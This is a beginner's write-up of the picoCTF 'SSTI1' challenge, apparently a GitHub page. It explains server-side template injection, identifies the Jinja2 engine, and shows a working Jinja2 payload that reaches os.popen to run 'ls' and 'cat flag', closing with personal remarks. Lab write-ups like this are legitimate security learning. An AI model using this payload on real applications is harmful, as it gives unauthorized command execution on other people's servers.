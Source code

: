 ## today topic is about the SSTI
### this question is form the pico CTF
[picoCTF:](https://play.picoctf.org/practice)
![SSTI1:](pic/The_qz.png)
<br>
[jinja_doc](https://jinja.palletsprojects.com/en/stable/api/#jinja2.Template.render_async)
<br>
<br>

![homeqz](pic/home_qz.png)

<br>

what is the SSTI:
    A server-side template injection attack (SSTI) is when a threat actor exploits a template's native syntax and injects malicious payloads into the template. The compromised template is then executed server-side. -- from google
<br>
what we need to know is the ==template engine==.

Jinja2 for Python, Pug, Handlebars, and EJS for JavaScript/Node.js, JSP for Java and Twig for php.
<br>
by the way,A template engine is a software tool that combines templates with data to generate dynamic output, most commonly in the form of HTML for web pages.
<br>
When I into the web. I saw a bar for input the words and print out. and I just learn a little SSTI.
<br>
first one I try with the Freemaker -- java.

![freemaker](pic/tryWith_freemaker.png)

but It's not work...
<br>
SO I try with other Grammar. And It's works :D

```pyORphp

{{7*7}}

```

![jinjaORtwig](pic/jinjaOrTwig.png)
<br>

but now we have new problem. That is we don't know It's Jinja, twig or other engine. QwQ
<br>
I find around, Until I saw the Network. AwA

![jinja](pic/know_py.png)

<br>
I saw the sever is python, then this web 99% made of Jinja
<br>

I read The Jinja doc and search the command.

![doc](pic/read_doc.png)
<br>

Finally.

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('command').read() }}

```

<br>
the "self" is the start point. "_TemplateReference__context" is the that start with double underscores are mangled to include the class name. "cycler" is the tool for find the obj. Accessing an object’s "__init__" attribute yields the function object that constructs that type."__globals__" is for using the "os" last we use popen for run command. and read()
<br>

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

```

![findflag](pic/findFlag.png)

print the file

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

```

![catflag](pic/catFlag.png)

and we found the flag :D
<br>

something want to say:
this one question it was kind a challenge for me, I have to learn the engine, read doc. But finally I did :D
<br>
I feel a litte pressure about the Scioly, Because I the Ell in school. have a good Conversation with team it's hard.
<br>
but
<br>
--船到桥头自然直
<br>
--everything will work out in the end


